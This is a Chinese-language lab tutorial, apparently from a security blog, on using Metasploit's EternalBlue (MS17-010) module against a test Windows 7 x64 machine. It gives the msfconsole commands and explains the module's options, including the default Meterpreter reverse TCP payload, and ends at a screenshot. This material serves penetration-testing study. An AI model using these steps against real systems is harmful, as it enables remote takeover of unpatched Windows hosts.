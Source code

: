 ## exploit ms17\_010\_eternalblue

exploit/windows/smb/ms17\_010\_eternalblue 模块

> EternalBlue SMB Remote Windows Kernel Pool Corruption

支持：<= Windows Server 2008，<= Windows 7、64 位系统

### 攻击测试

环境：Windows 7 Enter x64、192.168.1.15

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

查看模块默认配置，需设置 RHOSTS 为远程目标 IP，Payload 默认为 64 位的反弹 shellcode

*   RHOSTS，远程目标 IP-默认为空，需设置
*   RPORT，远程 SMB 共享端口 - 默认 445
*   SMBUser、SMBPass，SMB 认证用户名/密码，默认为空 - 采用匿名访问
*   VERIFY\_ARCH、VERIFY\_TARGET，验证目标架构、系统
*   Payload，反连信息 - 默认为 `windows/x64/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置 - 默认 Automatic Target

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

[![](assets/1701606737-4407b2b16bb9c8e9798e25203621c2ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234549-8f0f908a-7cbb-1.png)
